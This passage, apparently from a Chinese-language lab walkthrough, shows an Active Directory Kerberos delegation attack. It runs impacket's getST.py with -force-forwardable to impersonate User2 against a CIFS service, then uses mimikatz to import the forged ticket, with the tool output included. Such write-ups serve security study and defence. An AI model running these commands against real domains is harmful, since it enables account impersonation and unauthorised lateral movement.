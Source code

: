 ![hash](./hash.png)

拿到必要的hash之后使用getST使WIN7模拟用户User2访问WIN2012的cifs服务，需要加上`-force-forwardable`来修改forwardable字段的值，可以看到成功返回ST

```bash
python getST.py -impersonate User2 -spn cifs/WIN2012.xie.com -hashes <LM:NTLM> -aesKey <hash>  xie/WIN7 -dc-ip 10.0.0.133 -force-forwardable
```

![ST](./ST.png)

猕猴桃导入ticket

```bash
mimikatz.exe "kerberos::ptc User2.ccache" "exit"


mimikatz(commandline) # kerberos::ptc User2.ccache

Principal : (01) : User2 ; @ xie

Data 0
           Start/End/MaxRenew: 2024/10/3 15:11:38 ; 2024/10/4 1:11:38 ; 2024/10/4 15:12:01
           Service Name (02) : cifs ; WIN2012.xie.com ; @ XIE.COM
           Target Name  (02) : cifs ; WIN2012.xie.com ; @ XIE.COM
           Client Name  (01) : User2 ; @ xie
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000017 - rc4_hmac_nt d1a47478605c352ebec3796fc7c62eed
           Ticket            : 0x00000000 - null              ; kvno = 2
[...]
```